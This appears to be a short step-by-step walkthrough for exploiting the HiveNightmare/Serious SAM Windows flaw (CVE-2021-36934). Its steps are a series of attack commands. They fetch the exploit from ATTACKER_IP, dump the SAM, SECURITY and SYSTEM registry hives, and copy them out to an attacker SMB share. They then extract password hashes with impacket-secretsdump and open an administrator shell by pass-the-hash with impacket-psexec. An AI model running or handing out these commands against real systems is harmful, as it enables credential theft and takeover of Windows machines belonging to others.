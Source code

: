# HiveNightmare AKA Serious SAM CVE-2021-36934

## Steps

#### 1) Check the specific Windows Version

    [System.Environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      19043  0

#### 2) Download HiveNightmare on our machine, then transfer it to the target machine.

    wget https://github.com/GossiTheDog/HiveNightmare/releases/download/0.6/HiveNightmare.exe

    wget "http://ATTACKER_IP/HiveNightmare.exe" -outfile "c:\pwn\HiveNightmare.exe"

#### 3) Run HiveNightmare.exe to dump the registry hives.

    ./HiveNightmare.exe

#### 4) Transfer the hives to our machine

Attacker machine

    impacket-smbserver test /home/kali/Sams_test -username test -password test -smb2support

Target machine

    net use \\ATTACKER_IP\test test /user:test

    copy SAM \\ATTACKER_IP\test
    copy SECURITY \\ATTACKER_IP\test
    copy SYSTEM \\ATTACKER_IP\test

#### 5) Dump hashes

    impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL

#### 6) Spawn cmd as administrator

    impacket-psexec -hashes LM:NTLM_HASH administrator@TARGET_IP cmd.exe
